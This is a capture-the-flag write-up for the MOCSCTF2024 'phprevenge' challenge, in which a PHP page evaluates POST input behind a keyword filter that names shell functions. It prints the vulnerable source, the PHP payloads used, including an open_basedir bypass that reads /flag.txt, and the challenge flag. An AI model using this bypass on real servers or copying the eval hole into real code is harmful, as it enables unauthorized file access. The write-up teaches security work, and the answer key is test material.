






# MOCSCTF2024 - phprevenge

- Write-Up Author: 菜鳥程序員1號 \[[菜鳥程序員1號](https://github.com/ian-ng)\]

- Flag: MOCSCTF{N0_b0dyyyyy_kn0w_Better_Php_Than_me}

## Challenge Description:

>this is challenge description

http://34.150.35.67:30304/


## Write up  
1. Open the website
- you just see a website that shows php source code


2. you can see the source code that contains the following code
```php
<?php 
highlight_file(__FILE__);
//Php 1s Never Die!!!
ini_set('open_basedir','/var/www/html/');
function filter($str){
    if(preg_match('/passthru|\`|exec|call_user_func|pcntl|shell|popen|ob_start|map|array|system/i', $str)){
        return 'Damn Hacker🙉!';
    }
    else{
        return $str;
    }
}
filter(eval($_POST['1']));
?>
```
- it has an open_basedir setting to prevent getting data from the parent directory, and it will execute the input from the post request

3. just try to find the file of the flag
- I start to scan from the root directory, using Postman to send a POST request to the server with the following payload


```
array(19) { [0]=> string(3) "bin" [1]=> string(3) "dev" [2]=> string(3) "etc" [3]=> string(4) "flag" [4]=> string(8) "flag.txt" [5]=> string(4) "home" [6]=> string(3) "lib" [7]=> string(5) "media" [8]=> string(3) "mnt" [9]=> string(3) "opt" [10]=> string(4) "proc" [11]=> string(4) "root" [12]=> string(3) "run" [13]=> string(4) "sbin" [14]=> string(3) "srv" [15]=> string(3) "sys" [16]=> string(3) "tmp" [17]=> string(3) "usr" [18]=> string(3) "var" }
```
- I can see that there is a file named "flag.txt" in the root directory, probably this is the file I want

4. try to read the content of the file "flag.txt"
- I send another POST request to the server with the following payload
```php
<?php
  file_get_contents('/flag.txt');
?>
```


- unfortunately, it has been blocked by the ```open_basedir``` settings
- I need to find another way to read the content of the file

5. In order to bypass the open_basedir restriction, I need to find out the path of current php file path
- I send another POST request to the server with the following payload
```php
<?php
  echo getcwd();
?>
```


- It can know that the current php file path is ```/var/www/html/```

6. there is a way to bypass the open_basedir restriction, by changing the current directory to a child directory and set the open_basedir to the '..' to the trick
```php
<?php
  mkdir('test');
  chdir('test');
  // current directory is /var/www/html/test
  ini_set('open_basedir','..');
  // now it can access the parent directory from /var/www/html/test, then I can go the root directory
  chdir('..');
  // current directory is /var/www/html
  chdir('..');
  // current directory is /var/www
  chdir('..');
  // current directory is /var
  chdir('..');
  // current directory is /
  ini_set('open_basedir','/');
  // now I can access the root directory, and try to read the content of the file "flag.txt"
  echo file_get_contents('/flag.txt');
?>
```
- then, I send this POST request to the server with the above payload


7. For the last step, I should remove the test directory to recover the environment
```php
<?php
  rmdir('test');
  var_dump(scandir('.'));
  // array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" }
  // the test directory has been removed
?>
```

